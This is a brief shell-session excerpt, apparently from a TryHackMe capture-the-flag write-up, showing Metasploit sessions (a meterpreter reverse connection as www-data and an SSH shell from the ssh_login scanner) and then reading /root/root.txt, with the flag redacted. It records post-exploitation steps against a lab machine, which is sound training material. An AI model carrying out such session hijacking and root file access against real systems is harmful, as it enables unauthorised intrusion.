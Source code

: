 ```shell-session
  2         meterpreter x86/linux  www-data @ 172.28.101.50  10.11.8.17:4433 -> 10.10.152.194:33312 (172.28.101.50)
  3         shell linux            SSH kali @                10.11.8.17-10.10.152.194:55632 -> 172.17.0.1:22 (172.17.0.1)

msf6 auxiliary(scanner/ssh/ssh_login) > sessions -i -1
[*] Starting interaction with 3...

mesg: ttyname failed: Inappropriate ioctl for device
ls /root
root.txt
cat /root/root.txt
THM{...}
```